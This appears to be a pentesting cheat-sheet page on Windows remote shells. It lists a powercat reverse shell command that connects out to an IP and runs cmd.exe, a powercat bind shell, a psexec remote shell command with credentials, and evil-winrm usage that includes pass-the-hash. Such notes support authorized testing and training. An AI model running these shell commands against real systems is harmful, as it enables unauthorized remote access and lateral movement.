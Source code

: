 ## Powercat
A Powershell clone of Netcat exists. Archive cheatsheet is here [[Powercat-Cheatsheet]], excerpts about shell are here too.

Reverse shell:
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

Bind Shell
```powershell
powercat -l -p 1337 -e cmd.exe
```

## PsExec

PsExec, a subtool of PsTools, itself a subset [[Sysinternals-Psexec]] from Sysinteral suite and can be used to establish remote Windows shells, see [[Sysinternals-Hub]] for more Systinternal tools and \*bit variants. It is also a `psexec.py` from Impacket check out: [[Impacket-Cheatsheet]]
Version  2.32 and above require -i
```powershell
psexec \\<remote-address> -u <username> -p <password> -i cmd # -i for interactive
```

## Evil-winrm

[git](https://github.com/Hackplayers/evil-winrm)
> The ultimate WinRM shell for hacking/pentesting

HELP: but also for cheatsheet see [[Evil-winrm-Cheatsheet]]
```bash
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```
